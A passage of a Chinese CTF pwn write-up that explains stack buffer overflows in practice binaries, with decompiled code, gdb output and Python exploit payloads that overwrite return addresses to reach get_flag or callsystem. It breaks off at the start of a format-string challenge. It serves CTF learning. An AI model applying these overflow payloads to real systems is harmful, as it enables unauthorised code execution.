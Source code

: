 `IDA`可以看到`fgets`函数，危险的`strcpy`函数；但本题使用IDA会得到奇奇怪怪的代码，故使用gdb动态调试

```
stack 0xffffd214 —▸ 0x804b0ac (input) —▸ 0x80513dc ◂— 'IIIIII\n'
seg   0x8049257 <vuln+168>    call   replace                     <replace>
stack 0xffffd214 —▸ 0x804b0ac (input) —▸ 0x805151c ◂— 'youyouyouyouyouyou\n'
```

`replace`函数将输入字符串中的`"I"`替换为`"you"`，导致字符串变长进而可能在`strcpy`处溢出。

函数窗口中可见`get_flag`函数，地址为0x8048f0d

`s`距离`ebp`为0x3c字节，`ebp`为4字节，垃圾数据总量为 0x3c + 4 = 64字节，64 = 3*21+1

`payload = b'I'*21 + b'a' + p32(0x8048f0d)`

## jarvisoj_level0

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

buf距离rbp为0x80=128字节，read写入200字节，缓冲区溢出；rbp大小为8；callsystem函数地址为0x400596

```
payload = b'a'*136 + p64(0x400596)
```

## [第五空间2019 决赛]PWN5

```c
int __cdecl main(int a1)
{
  //...
  char nptr[16]; // [esp+4h] [ebp-80h] BYREF
  char buf[100]; // [esp+14h] [ebp-70h] BYREF
  //...
  fd = open("/dev/urandom", 0);
  read(fd, &dword_804C044, 4u);
  printf("your name:");
  read(0, buf, 0x63u);
  printf("Hello,");
  printf(buf);
  printf("your passwd:");
  read(0, nptr, 0xFu);
  if ( atoi(nptr) == dword_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  // ...
}
```
